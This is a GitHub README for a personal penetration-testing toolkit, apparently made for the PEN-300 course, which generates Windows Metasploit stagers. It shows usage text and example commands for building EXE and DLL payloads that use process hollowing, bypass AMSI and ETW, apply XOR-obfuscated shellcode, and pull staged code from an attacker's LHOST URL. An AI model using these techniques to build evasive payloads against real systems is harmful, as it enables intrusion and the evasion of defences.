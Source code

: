 # Tools for my PEN-300 course

* Update `LHOST` and `LPORT` in `ak.py` to your MSF (or other C2) listening IP and port before crafting any tools.
* By default, staged payloads will pull from the following URL `http://(LHOST)/sc`.
* Stageless payloads will automatically apply an XOR encryption to obfuscate the shellcode.

## MSF Stager

```
usage: generate_win_msf_stager.py [-h]
                                  [--injection {hollow,interprocess,earlybird,standard}]
                                  [--format {exe,dll}]
                                  [--heuristics | --no-heuristics]
                                  [--amsi | --no-amsi] [--etw | --no-etw]
                                  [--stageless | --no-stageless]

optional arguments:
  -h, --help            show this help message and exit
  --injection {hollow,interprocess,earlybird,standard}, -i {hollow,interprocess,earlybird,standard}
  --format {exe,dll}, -f {exe,dll}
  --heuristics, --no-heuristics
  --amsi, --no-amsi
  --etw, --no-etw
  --stageless, --no-stageless
```

## Examples

```sh
# Create a dll that will use hollowing to load shellcode
python3 generate_win_msf_stager.py --injection hollow --format dll

# Create a stageless exe that will load and run shellcode within the same process
python3 generate_win_msf_stager.py --stageless --format exe
```
